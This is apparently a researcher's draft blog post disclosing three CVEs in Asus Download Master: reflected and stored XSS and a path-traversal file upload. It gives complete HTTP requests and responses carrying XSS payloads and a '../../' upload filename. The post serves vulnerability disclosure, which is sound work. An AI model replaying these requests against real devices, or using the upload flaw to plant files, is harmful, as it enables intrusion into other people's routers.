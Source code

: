 ```yaml
---
title: "Asus Download Master - Part 1: XSS, Uploads"
date: 2024-04-16T17:26:23Z
draft: true
tags: ["notes research cve asus"]
---
```


## Asus, the gift that keeps on giving (cves)

something something a cve horse in the mouth

Remember back in the early 2000s, when download managers were all the rage? Well, turns out in 2024 Asus *still* has a product, aptly named "Download Master". This "app" installs to a USB device on your router. As it turns out, it's actually a full on linux environment running `busybox`... that's installed onto your USB stick, lol. 

DM, as I'll refer to it henceforth, was *riddled* with issues-- classic low-hanging bugs that you don't expect to see outside of a CTF. Since this isn't natively on the routers it's not as big a deal. Shodan reports only around ~2.9k devices worldwide, and Censys about the same:

![alt text](images/shodan-dm.png)

In my cursory prodding, I came across the following bug types, note that they are ALL authenticated:

1. Reflected XSS
2. Stored XSS
3. Arbitrary File Uploads / Path Traversal
4. Command Injections
5. Buffer Overflows

For this post I'll review 1 - 3, and a part two will contain the fun ones.

## Reflected XSS - CVE-2024-31159

Endpoint: `/check.asp`

The `directurl` POST body parameter is not sanitized prior to being reflected within application responses, resulting in the ability to perform cross-site scripting attacks.

Payload: `"-alert("XSS")-"`

**Request:**
```html
POST /check.asp HTTP/1.1
Host: 192.168.1.2:8081
Content-Length: 128
Origin: http://192.168.1.2:8081
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.1.2:8081/check.asp
Cookie: hwaddr=3C:7C:3F:53:C1:00; apps_last=downloadmaster; clickedItem_tab=0; asus_token=ERc5RMR5mV5iDo6sZjtHhvTdfjuVMyo
Connection: close

flag=&login_username=[REDACTED]&login_passwd=[REDACTED]&foilautofill=&directurl=%2Fdownloadmaster%2Ftask.asp"-alert("XSS")-"
```

**Response:**
```html
HTTP/1.1 200 OK
Set-Cookie: AuthByPasswd=asus_app_token:9ecafe2c4909d1b93bfa474fe119512f; path=/downloadmaster/; httponly;
Cache-Control: no-store
Cache-Control: no-cache
Content-Type: text/html
Content-Length: 886
Connection: close
Date: Thu, 27 Jul 2023 22:58:34 GMT
Server: lighttpd/1.4.39

<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<html xmlns:v>
<head>
<meta http-equiv="X-UA-Compatible" content="IE=EmulateIE8" />
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<meta http-equiv="Expires" content="-1" />
<meta HTTP-EQUIV="Cache-Control" CONTENT="no-cache">
<meta http-equiv="Pragma" content="no-cache" />
<title>Login Jump</title>
<script type="text/javascript" src="jquery.js"></script>
</head>
<body>
<script>
var httpTag 		= 'https:' == document.location.protocol ? false : true;
var directurl_host 	= document.location.host;
var url 			="/downloadmaster/task.asp"-alert("XSS")-"";
if(httpTag)
self.location = "http://" +directurl_host	+ url;
else
self.location = "https://" +directurl_host	+ url;
</script>
</body>
</html>
```

**Screenshot:**
![alt text](images/reflected-xss.png)

## Stored XSS - CVE-2024-31160

Endpoint: `/downloadmaster/dm_apply.cgi`

The `usb_dm_url` URL parameter is not sanitized prior to it being stored as a download task. This value is the reflected within the `/downloadmaster/task.asp` page unsafely, resulting in the ability to perform stored-cross site scripting attacks.

**Request:**
```html
GET /downloadmaster/dm_apply.cgi?action_mode=DM_ADD&download_type=5&again=no&usb_dm_url=%3cscript%3ealert('stored-xss')%3c/script%3e HTTP/1.1
Host: 192.168.1.2:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Referer: http://192.168.1.2:8081/downloadmaster/task.asp
Cookie: AuthByPasswd=asus_app_token:687b0a83a016a94f8a06ba793349d613; 
```

**Response:**
```html
HTTP/1.1 200 OK
ContentType: text/html
Cache-Control: private,max-age=0;
Connection: close
Date: Thu, 27 Jul 2023 23:09:48 GMT
Server: lighttpd/1.4.39
Content-Length: 10

ACK_SUCESS
```

A request to `dm_print_status.cgi` (sent as part of loading `task.asp`) returns the stored xss:

**Request:**
```
GET /downloadmaster/dm_print_status.cgi?action_mode=All HTTP/1.1
Host: 192.168.1.2:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Cookie: AuthByPasswd=asus_app_token:687b0a83a016a94f8a06ba793349d613;
```

**Response:**
```
HTTP/1.1 200 OK
ContentType: text/html
Cache-Control: private,max-age=0;
Date: Thu, 27 Jul 2023 23:13:37 GMT
Server: lighttpd/1.4.39
Content-Length: 113

["1","<script>alert('stored-xss')</script>","0.0","","notbegin","OTHER","","0 KBps","0 KBps","0","","0.0000",""]

```

Screenshot:
![alt text](images/stored-xss.png)

## Arbitrary Uploads / Path Traversal - CVE-2024-31161

Endpoint: `/downloadmaster/dm_uploadbt.cgi`

It is possible to upload arbitrary files to arbitrary locations by manipulating parameter values in file uploads sent to the `dm_uploadbt.cgi` endpoint. It is possible to include path traversal characters within the `filename` parameter of POST requests made to this endpoint and cause the file being uploaded to be stored anywhere, overwriting existing files.

Additionally, no restrictions on file contents were observed, making it possible to upload arbitrary files such as malware or web shells.

**Request:**
```html
POST /downloadmaster/dm_uploadbt.cgi HTTP/1.1
Host: 192.168.1.2:8081
Content-Length: 273
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryBfjAbnA3mHUXAZ6q
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Cookie: AuthByPasswd=asus_app_token:abf4c1e97f3ad73ff53c25399b8f8c42;

------WebKitFormBoundaryBfjAbnA3mHUXAZ6q
Content-Disposition: form-data; name="filename"; filename="../../asusware.arm/etc/downloadmaster/downloadmaster/test.asp"
Content-Type: application/x-bittorrent

hello from n0rthw4rd
------WebKitFormBoundaryBfjAbnA3mHUXAZ6q--
```

**Response:**
```html
HTTP/1.1 200 OK
ContentType: text/html
Cache-Control: private,max-age=0;
Date: Tue, 25 Jul 2023 14:44:35 GMT
Server: lighttpd/1.4.39
Content-Length: 73

<script>parent.hideLoading();parent.response_dm_add("ACK_FAIL");</script>
```

Although the application's response indicates the request was not successful, navigating to the `/downloadmaster/test.asp` URI returns the uploaded file. This can be additionally validated by connecting to the device via SSH and validating the file's presence.

![alt text](images/arb-uploads.png)